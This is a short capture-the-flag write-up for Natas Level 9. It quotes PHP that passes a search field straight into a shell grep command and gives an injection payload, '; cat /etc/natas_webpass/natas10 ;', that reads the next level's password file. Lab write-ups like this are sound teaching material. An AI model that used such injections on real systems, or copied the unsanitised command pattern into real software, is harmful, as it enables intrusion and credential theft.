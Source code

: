 # Level 9
This level deals with command injection.

## Quest
We are present with a search box. I type `hello` in searchbox and get the following output.

![Level 9 Image](./images/Level9.png)

The backend PHP code is below, Lets comment it
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {   // Checks if "needle" key is present in GET request
    $key = $_REQUEST["needle"];               // If its there, assign it to var $key
} 

if($key != "") {                              // If key is not empty
    passthru("grep -i $key dictionary.txt");  // use it to run a shell command (Bad Practise!)
}
?>
```

## Solution
From the above code, we can see that user input is passed to OS command without any sanitization, this code should be vulnerable to command injection.<br/><br/>
Our goal is to get password for the next level, i.e. access  `/etc/natas_webpass/natas10` .

Our payload       `; cat /etc/natas_webpass/natas10 ;` <br/>
Terminate the `grep` command with `;` and view the password file and then terminate `cat` command with `;` 

As evident from below screenshot, this gets us password for next Level.

![Level 9 solution](./images/Level9_solution.png)

### How the payload works
```shell
# If user input is "hello", following command gets executed
grep -i hello dictionary.txt          # Searches dictionary.txt for word hello and displays output

# Now if we put our payload, command becomes
grep -i ; cat /etc/natas_webpass/natas10 ; dictionary.txt   #  ; terminates command
```
`;` terminates `grep` command, runs our `cat` command and terminates it again.

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
